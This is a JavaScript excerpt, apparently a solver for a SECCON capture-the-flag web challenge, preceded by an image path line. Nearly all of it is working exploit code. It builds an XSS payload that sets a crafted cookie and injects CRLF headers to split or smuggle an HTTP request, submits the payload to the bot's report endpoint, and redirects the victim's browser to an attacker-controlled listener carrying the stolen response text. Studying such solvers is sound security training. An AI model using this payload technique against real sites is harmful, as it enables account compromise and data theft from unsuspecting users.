 ```javascript
    "Accept: */*\r\nReferer: http://nginx:3000/\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCookie: "
      .length;
  const evilHeader = encode(`bbb\r\nContent-Length: ${contentLength}\r\n`);

  const evilJs = `
    const main = async () => {
      document.cookie = '/?a=b HTTP/1.1';

      const res = await fetch('/api?expr=1', {
        method: 'GET',
        headers: {
          'aaa': '${evilHeader}',
        },
      });
      location = '${ATTACK_BASE_URL}/?text=' + encodeURIComponent(await res.text());
    };
    main();
  `.replaceAll("\n", "");
  if (evilJs.includes('"')) {
    fail("Invalid evilJs");
  }

  const xssPayload = `<img src=0 onerror="${evilJs}">`;

  const res = await (
    await fetch(`${SECCON_BASE_URL}/report`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        expr: xssPayload,
      }),
    })
  ).text();
  console.log(res); // "Received :)"
};

const start = async () => {
  fastify.get("/", async (req, reply) => {
    const text = req.query.text;
    console.log(text); // Print a flag

    process.exit(0);
  });

  fastify.listen(
    { port: LISTEN_PORT, host: "0.0.0.0" },
    async (err, address) => {
      if (err) {
        fastify.log.error(err);
        process.exit(1);
      }

      await sleep(1000);
      await exploit();

      await sleep(5000);
      console.log("Failed");
      process.exit(1);
    }
  );
```
